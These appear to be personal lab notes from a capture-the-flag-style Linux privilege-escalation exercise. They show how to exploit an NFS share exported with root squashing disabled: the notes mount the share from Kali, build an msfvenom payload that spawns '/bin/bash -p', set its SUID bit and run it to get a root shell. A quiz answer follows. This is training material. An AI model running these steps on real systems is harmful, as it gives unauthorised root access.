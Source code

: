 Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

`cat /etc/exports`

![[Pasted image 20240224134615.png]]

Note that the **/tmp** share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

`sudo su`

Using Kali's root user, create a mount point on your Kali box and mount the **/tmp** share (update the IP accordingly):

`mkdir /tmp/nfs`
`mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs`

![[Pasted image 20240224134714.png]]

![[Pasted image 20240224135117.png]]

Still using Kali's root user, generate a payload using **msfvenom** and save it to the mounted share (this payload simply calls /bin/bash):

`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

![[Pasted image 20240224135155.png]]

Still using Kali's root user, make the file executable and set the SUID permission:

`chmod +xs /tmp/nfs/shell.elf`

![[Pasted image 20240224135217.png]]

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

`/tmp/shell.elf`  

![[Pasted image 20240224135254.png]]

Remember to exit out of the root shell before continuing!  

Answer the questions below

| Question                                                     | Answer         |
| ------------------------------------------------------------ | -------------- |
| What is the name of the option that disables root squashing? | no_root_squash |
